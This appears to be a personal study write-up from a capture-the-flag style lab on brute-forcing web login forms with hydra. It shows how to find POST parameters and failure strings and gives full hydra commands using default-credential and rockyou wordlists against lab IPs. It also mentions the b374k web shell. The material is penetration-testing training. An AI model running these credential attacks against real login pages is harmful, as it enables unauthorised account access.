 # 👨‍⚖️ Web Forms Brute Forcing

Many admin panels have also implemented features or elements such as the [b374k shell](https://github.com/b374k/b374k) that might allow us to execute OS commands directly.

Here is a command to see all of the requests we can use in hydra:

```shell-session
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

Here are some `http` modules that are interesting for us:

1. `http[s]-{head|get|post}`
2. `http[s]-post-form`

The 1st module serves for basic HTTP authentication, while the 2nd module is used for login forms, like `.php` or `.aspx` and others.

To decide which module needs to be used, we need to know if the application uses `GET` or a `POST` form. We can test it by trying to log in and pay attention to the URL. If we recognize that any of our input was pasted into the `URL`, the web application uses a `GET` form. Otherwise, it uses a `POST` form.

Our URL does not change, we know that the web application uses a `POST` form so let's use `http-post-form` module and use the "`-U`" flag to list the parameters it requires

so in our case we need:

* `URL path`, which holds the login form
* `POST parameters` for username/password
* `A failed/success login string`, which lets hydra recognize whether the login attempt was successful

```shell-session
/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:[FAIL/SUCCESS]=[success/failed string]
```

And if we do not see any error message, we can go ahead and specify something from the source code like `<form name='login'`, which should be distinct enough and will probably not exist after a successful login.

So here will be our final request:

```bash
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"
```

to have the parameters we need we can simply go and look at the inspector panel:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This would give us the following POST parameters:

```bash
username=test&password=test
```

Or the copy as curl would give us plenty of informations as well as the parameters we need:

<pre><code><strong>...&#x3C;SNIP>    --data-raw 'username=test&#x26;password=test'
</strong></code></pre>

and of course in burp we can also get those informations:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So the final parameters would look something like that:

```bash
"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

We can start by looking for default credentials with the `ftp-betterdefaultpasslist.txt`

And so, the FINAL PAYLOAD will come out like this:

```shell-session
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

_**Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**_

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>username=admin password=admin</p></figcaption></figure>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 94.237.51.88 -s 52477 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<input name='username'" -V
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
